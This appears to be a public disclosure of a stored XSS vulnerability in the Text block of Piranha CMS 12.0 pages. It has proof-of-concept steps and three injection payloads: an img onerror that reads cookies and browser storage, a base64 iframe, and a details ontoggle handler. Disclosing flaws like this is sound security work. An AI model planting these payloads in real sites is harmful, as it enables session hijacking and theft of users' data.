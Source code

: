# Public Disclosure: Stored XSS in Text Block – Piranha CMS 12.0 #

<b>Title</b>:<br> Stored Cross-Site Scripting in Text Block of Standard and Archive Pages in Piranha CMS 12.0

### Summary: ###
Piranha CMS 12.0 contains a stored cross-site scripting (XSS) vulnerability affecting the “Text” content block used in both Standard Page and Standard Archive Page types. When adding text content via the page editor, user-supplied HTML is not properly sanitized. An authenticated user can inject JavaScript payloads that are saved with the page content. These scripts are executed immediately upon save and every time the page is previewed or accessed, resulting in persistent XSS. This presents a serious risk for shared admin environments and can lead to account compromise or unauthorized data access.

<b>CVE ID:</b>
(Pending Assignment)

<b> Vendor:</b><br>
https://piranhacms.org<br>
https://github.com/PiranhaCMS/piranha.core

<b>Affected Product:</b><br>
Piranha CMS version 12.0<br>
https://github.com/PiranhaCMS/piranha.core/releases/tag/v12.0

<b>Affected Component:</b><br>
Pages → Standard Page / Standard Archive →  Content Block --> Text <br>
Path: /manager/pages<br>

## <b> Proof-of-Concept (PoC)</b> ##

1. Log in to the Piranha CMS admin panel at /manager/login
   
2. Navigate to the Pages section
   ![Step 1a](assets/1a.png)

3. Click “Add Page” and choose either:

Standard Page, or Standard Archive
   ![Step 1b](assets/1b.png)

4  Enter a page title (e.g., XSS-Test)
   ![Step 1c](assets/1cc.png)

5. Click the [+] button and select “Text” under “Content”

6 In the text input area, paste one of the following payloads:

Payload A
 ```bash 
<img src="x" onerror="
  alert(
    'Cookies: ' + document.cookie + '\n' +
    'LocalStorage: ' + JSON.stringify(localStorage) + '\n' +
    'SessionStorage: ' + JSON.stringify(sessionStorage) + '\n' +
    'URL: ' + window.location.href + '\n' +
    'User Agent: ' + navigator.userAgent + '\n' +
    'Time: ' + new Date().toLocaleString()
  )
" />
 ```


Payload B

 ```bash 
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></iframe>
```

Payload C

 ```bash 
<details open ontoggle=alert('XSS')>Click</details>
```
   ![Step 1d](assets/1d.png)


7 Click Save and  Click Preview

 Boom 
 it executes again. Anyone who accesses  the page triggers the XSS.
   ![Step 1e](assets/1e.png)


<b>Impact:</b>
<br>
Persistent (Stored) Cross-Site Scripting (XSS): Injected scripts are saved as part of the page content.<br>
Automatic Execution: Payloads execute every time the page is accessed, previewed, or viewed by any user.<br>
Session Compromise: it lead to session hijacking or theft of sensitive data such as cookies, tokens, or local/session storage.<br>
Privilege Abuse: Enables malicious authenticated users to target other admins or editors, escalating access or impersonating users.<br>
Multi-Page Exposure: Affects both Standard Pages and Standard Archive Pages, increasing the overall attack surface.<br>


